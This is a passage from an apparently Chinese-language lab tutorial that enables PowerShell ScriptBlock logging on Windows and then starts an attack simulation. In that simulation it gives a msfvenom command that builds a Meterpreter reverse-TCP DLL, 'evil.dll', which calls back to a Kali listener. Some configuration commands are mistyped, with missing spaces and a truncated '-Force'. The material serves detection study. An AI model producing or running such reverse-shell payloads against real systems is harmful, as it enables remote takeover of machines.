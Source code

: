**2.2 配置 PowerShell ScriptBlock 日志**  
PowerShell 日志类型：Module、ScriptBlock logging、Script Execution、Transcription。为了收集脚本执行日志，将配置并激活 ScriptBlock。以管理员运行 Powershell，执行如下命令：  
1）更改 powershell 执行策略，以允许后续配置更改；

```bash
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

2）新建 ScriptBlockLogging 注册表路径；

```bash
New-Item-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Force
```

3）新增 EnableScriptBlockLogging 属性为 DWORD 并设置为 1；

```bash
New-ItemProperty-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1 -PropertyType DWord -Forc
```

4）开启日志记录

```bash
wevtutil sl "Microsoft-Windows-PowerShell/Operational" /e:true
```

**2.3 其他软件**

```bash
Process Hacker：实时分析；Wireshark：流量分析。
```

**3、攻击模拟**

**3.1 生成 dll 文件**  
（1）在 Kali VM 使用 msfvenom 生成 payload，msfvenom 是 Metasploit 框架中的组件。命令如下：

```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp Lhost=192.168.26.130 Lport=88 -f dll > /home/hacker/Desktop/evil.dll
```

Lhost 表示监听的主机，此处代表 Kali 主机，  
Lport 表示监听的端口。 
\-f 生成的文件类型，此处是 dll。

成功执行后如下图所示：

[![](assets/1701606587-3d2278f40fcdcbd0e96623046a1bb855.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162624-feb90096-8522-1.png)

